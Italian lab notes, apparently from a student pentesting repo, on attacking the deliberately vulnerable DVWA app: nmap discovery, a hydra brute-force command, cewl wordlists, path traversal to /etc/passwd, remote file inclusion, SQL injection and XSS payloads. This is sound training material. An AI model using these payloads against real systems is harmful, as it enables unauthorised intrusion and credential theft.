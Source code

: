 > Lavoro sulla repo "pentestlab"

# Strumenti utilizzati
- **Burp**: Il classico funzionamento di Burp è quello di frapporsi
tra il broswer e il server dell’applicativo web con il
proprio http proxy.

# Attacco bruteforce
1. Discovery dell'host vulnerabile```nmap -sn 192.168.56.0/24```

2. Primo attacco di **bruteforce** al login aprendo ```Burp > Proxy > Intercept On > Open on browser ```.

3. Appena trovo la richiesta giusta la invio al ```repeater```

4. Creo la richiesta hydra (non funziona)

```
hydra 172.8.0.1 -L SecLists/Usernames/top-usernames-shortlist.txt \
-P SecLists/Passwords/xato-net-10-million-passwords-100.txt \
http-get-form \ 
"/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=INSERIRE"

```
 5. (Opzionale) generare pw da un sito: ```cewl -d 1 -m 5 https://ulisse.unibo.it```

# Attacco File Inclusion
1. Ottengo una risorsa
```
http://dvwa/vulnerabilities/fi/?page=../../../../../../../../etc/passwd"
```
2. Creo una risorsa
```
touch text.php
python3 -m http.server 8081

# posso mettere http://.../text.php come page 
```

# Attacco SQL Injection
## Blind
 ``` ' OR '1' = '1 ```

## Union based
Il meccanismo UNION permette di combinare i risultati di due SELECT in un’unica risposta HTTP.

Per avere successo, entrambe le query devono restituire lo stesso numero di colonne con tipi compatibili
1. **Count columns**: usa payload come UNION SELECT NULL,NULL,...-- incrementando i NULL finché non sparisce l’errore di mismatch

2. **Test data types**: sostituisci NULL con valori di test ('a', 1) per identificare colonne stringa vs numeriche.

3. **Extract data**: una volta allineate le colonne, seleziona campi sensibili (es. username,password) dalla tabella desiderata

 ```' UNION SELECT NULL,NULL-- ```

# XSS
## Semplice
Se metto nel payload ```\<script>alert("[TESTO]")</script>``` scaricando il dato, esegue lo script

## Utilizzo di Burp
proxy -> open in browser: Avvio l'interceptor delle richieste e intercetta una richiesta http.

Mi accorgo che nell'ultima riga c'è il body della richiesta mandato con POST.

Se vado nel tab **DECODE** posso codificare o decodificare
